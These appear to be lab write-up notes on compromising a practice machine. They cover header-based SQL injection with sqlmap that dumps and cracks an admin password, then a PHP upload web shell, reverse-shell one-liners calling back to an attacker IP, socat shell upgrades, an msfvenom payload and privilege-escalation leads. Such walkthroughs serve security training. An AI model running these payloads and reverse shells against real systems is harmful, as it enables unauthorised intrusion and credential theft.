

# Dev

[TOC]

## Introduction

This box "SQLI2" is an intermediate machine susceptible to SQL injection, as well as privilege escalation.

## Enumeration

First we need to find out the IP Address of the target which is sitting in our network.

```
ip="192.168.126.143"
```

Let us start by performing an nmap scan on the target machine in order to know what services it is hosting.

```bash
nmap -A -p- -T4 $ip -oN ./nmap/sql2
```

According to the results the machine only has one port open to us:

- HTTP on port 80


We can extract that the target is running the HTTP server nginx 0.7.67 and this webserver is probably a blog site for photos.

The next step should be to access said webserver and try to find vulnerabilities.


### HTTP

The main page of the web server return a web page with a single picture. We have several links at the top which we can click returning other picture as well as an additional one which redirects the user to an admin portal.

Endpoints:

- Get Photos by ID: /cat.php?id={pic_id}
- Get All Photos: /all.php

- Admin Portal: /admin/login.php

### Gobuster

Directory/File Enumeration

```
gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```




### SQL Injection

Let's start by testing cat.php using different inputs.

https://github.com/payloadbox/sql-injection-payload-list

Used the list above to test the input parameters with a Sniper attack:

- id in the cat.php
- username and password in the login.php

SQLMap Requests saved from Burp.

```
sqlpmap -r request.req
```

Sniper on the following Headers:

- Host
- User Agent
- Cookies

Tried every header after that just to make sure but still found nothing.

X-Forwarded-For: ' OR SLEEP(5)#

```
sqlmap -u "http://192.168.126.143/cat.php?id=2" --headers="X-Forwarded-For: *"

sqlmap -u "http://192.168.126.143/cat.php?id=2" --headers="X-Forwarded-For: *" --dbs

sqlmap -u "http://192.168.126.143/cat.php?id=2" --headers="X-Forwarded-For: *" -D photoblog --tables

sqlmap -u "http://192.168.126.143/cat.php?id=2" --headers="X-Forwarded-For: *" -D photoblog -T users -dump --null-connection --keep-alive
```

Instead of using hashcar i decided to usesqlmaps inherent wordlist to crack the password.

admin:8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) 


Fix for SQL Injection (Prepared Statements):

Code in SQL injection (stats.php) because it directly includes user input (the IP address) in the SQL query without proper sanitization. To fix this, you should use prepared statements with parameterized queries.

### Shell

After logging in we can access the uploaded picture with /show.php, as well as have access to upload a new picture.

It is relatively straightforward how we have to upload a reverse shell and execute it to gain shell.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

The difficult part is weather the server accepts php files for images.


Tests:

1. Upload the pentestmonkey reverse shell but it did not work because it was a php file.
2. .jpg.php did not work, even with other extensions it was not working
3. .php.jpg did not upload because of the content type


The following payloads were not working:

```
bash -i >& /dev/tcp/192.168.126.129/4444 0>&1

/bin/bash -l > /dev/tcp/192.168.126.129/4444 0<&1 2>&1

#Shell would die instantly
php -r '$sock=fsockopen("192.168.126.129",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.126.129",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.126.129",4444);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("192.168.126.129",4444);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Until:

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.126.129/4444 0>&1'

/admin/uploads/1699822575.png/c.php?c=/bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.126.129/4444+0>%261'
```

In some environments, the use of certain special characters or syntax might be restricted when directly executing commands, but using the -c option can bypass those restrictions. 

I also found out the there was netcat installed on the target machine which would spawn a shell using:

```
nc -e /bin/bash 192.168.126.129 4444

/admin/uploads/1699822575.png/c.php?c=nc+-e+/bin/bash+192.168.126.129+4444
```


### Privilege Escalation

#### Upgrade Shell to TTY

https://github.com/static-linux/static-binaries-i386/blob/master/socat-2.0.0-b8.tar.gz

Used the Socat static binary above since python was not installed on the machine:

```
socat TCP-L:6666 FILE:`tty`,raw,echo=0
./socat TCP:192.168.126.129:6666 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


Alternative cmd/unix and upgrade to Meterpreter:

#### DirtyCow

https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c


I went to the /tmp folder which i have write permissions to upload my scripts and did some manual tests first before uploading linpeas

Manual Investigation:


```
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=192.168.126.129 lport=5555 -f elf > revshell
```

#### Potential: linux/local/rds_rds_page_copy_user_priv_esc

**Steps:**

1. Upgrade using socat and check if i can sudo -l


Alternative: cmd/unix/reverse_bash to meterpreter and try sudo commands and check for dirtycow module etc

Additional Actions:

Ver se consigo encontrar outro metodo para conseguir shell

1. Atraves do SQLMap
2. File Upload Vulnerability

### Mitigation Actions

Idealmente posso tentar num dos pedidos ir ao codigo do backend corrigir e testar novamente para ver se funciona
